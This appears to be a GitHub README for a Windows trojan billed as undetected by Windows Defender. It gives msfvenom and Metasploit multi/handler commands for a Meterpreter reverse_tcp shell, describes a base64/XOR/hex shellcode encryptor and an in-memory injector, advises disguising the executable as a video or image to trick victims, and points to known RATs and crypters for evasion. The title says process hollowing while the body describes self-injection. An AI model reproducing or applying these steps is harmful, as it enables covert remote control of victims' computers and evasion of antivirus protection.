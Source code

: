 # Encrypted Trojan with Process Hollowing (Undetected)
Encrypted malware using process hollowing, it creates a shell injecting shellcode which is encrypted using xor, base64 and hexadecimal encoding. Undetected by Windows defender as of 2025.

# 💻 Code
Simple shellcode execution technique in which the payload is decrypted, copied into memory, and executed in the same process without writing it into disk. Similar to my other trojan, [Self injection](https://github.com/Hue-Jhan/Encrypted-Trojan-Undetected), but slightly different.

### Listener and payload:
First, on the attacker's machine i used the classic multi handler exploit to run the payload: 
``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

The payload is a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its easy to detect:
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

You can embed the code into pretty much anything, you can even use tools to mask the exe file into a mp4 or jpg file, complete with a new icon and a name, even the extension can be masked. Once the victim runs the exe, a new session will pop up on metasploit, where you can create a shell and work towards privilege escalation.

###  Encrypter:

The encryptor takes the shellcode (which in the code i uploaded is just a windows message box that says xd lol) and obfuscates it using 3 layers of encryption:
- First we encode binary data into a Base64 representation, use a custom base64_chars set instead of the standard Base64 alphabet to add obfuscation;
- Secondly we apply XOR encryption on the string using a single-byte key, XOR encryption is symmetric so it can be decrypted by applying the same key;
- Then we convert it into its hexadecimal string representation and we get the final encrypted shellcode.

###  Injector:

The actual injection process works like this:
- First we decode the shellcode by doing the opposite of what we did in the encrypter code, make sure to use the same xor key;
- Secondly we allocate the memory, write shellcode to the allocated memory, and make it readable, writable, and executable, allowing the shellcode to run.
- Then we copy the shellcode into the newly allocated memory and we make sure that the allocated memory has the correct permissions to execute the shellcode;
- It creates a new thread at the address of ```allocated_mem```, which contains and executes the shellcode as if it were a normal function.

Finally we wait for the created thread to finish executing before freeing the memory and the buffers.

# 🛡 AV Detection

<img align="right" src="media/hsav1.png" width="430" />

Just like my previous trojans, it's currently undetected by windows defender, but it's easily blocked by Bitdefender, even the free trial.
Again Virus Total says that bitdefender won't classify the exe file as malicious, while Microsoft recognizes the malware.... it should be the exact opposite but idk.

You can still make it fully undetectable by using other encrypting softwares like Soggoth or Supernova or idk, but at this point just use a much more known rat like xworm.
